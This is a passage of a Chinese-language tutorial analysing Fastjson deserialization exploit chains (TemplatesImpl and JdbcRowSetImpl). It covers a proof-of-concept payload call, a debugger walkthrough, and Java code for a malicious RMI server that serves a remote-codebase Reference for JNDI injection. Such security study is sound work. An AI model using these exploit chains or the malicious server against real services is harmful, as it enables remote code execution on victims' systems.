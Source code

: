 ```java
                        "allowedProtocols\":\"all\"}\n";
        ParserConfig config = new ParserConfig();
        Object obj = JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField);
        System.out.println(obj);
    }
}
```

##### 为什么类需要是public的

值得一提的是这里的恶意类必须是public的,否则在`TemplatesImpl`类中的`getTransletInstance`方法中会无法获取该类的实例

```java
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```

![image-20220607213128139](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220607213128139.png)

根本原因在`Class.newInstance`的调用链这里

按理说我定义的类的包和它就是一致的呀,明明代码都写在一个包下面,但是根据调试发现,javassist生成的class它是不带包名的

![image-20220607221426566](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220607221426566.png)

所以这个判断的地方输出false,而只有它的修饰符是public才能进入下面的代码并且返回true最后实现实例化

![image-20220607220335886](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220607220335886.png)

![image-20220607220315641](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220607220315641.png)

这里对于利用条件是有要求的，Fastjson默认只会反序列化public属性，而outputProperties和_bytecodes由private修饰，所以受害端的parseObject必须设置Feature.portNonPublicField，而Feature.portNonPublicField在1.22才被引入，所以这条利用链条件过于苛刻

#### JdbcRowSetImpl调用链

![image-20220608005810266](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220608005810266.png)

在`JdbcRowSetImpl#connect`方法中调用了参数名可控的`InitialContext.lookup()`方法

这里有一个基础知识点,就是子类虽然可以继承父类的private属性,但是**必须通过父类中定义的get和set才能访问到**

![image-20220608005043003](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220608005043003.png)

共有三处调用了`connect()`方法

里面第三个`setAutoCommit`方法对应的参数`autoCommit`同时拥有get方法,可以使用fastjson还原类的时候调用set方法的特性从而调用到`lookup`

编写恶意服务端

```java
public class Server {
    public static void main(String[] args) throws Exception{
        //第一个参数随便填
        Reference reference=new Reference("evil","evil","http://127.0.0.1:5555/");
        //这里末尾要加个/,否则无法读取.....
        //将该reference封装成远程对象
        ReferenceWrapper referenceWrapper=new ReferenceWrapper(reference);
        LocateRegistry.createRegistry(1099);
        Naming.bind("hello",referenceWrapper);
    }
}
```
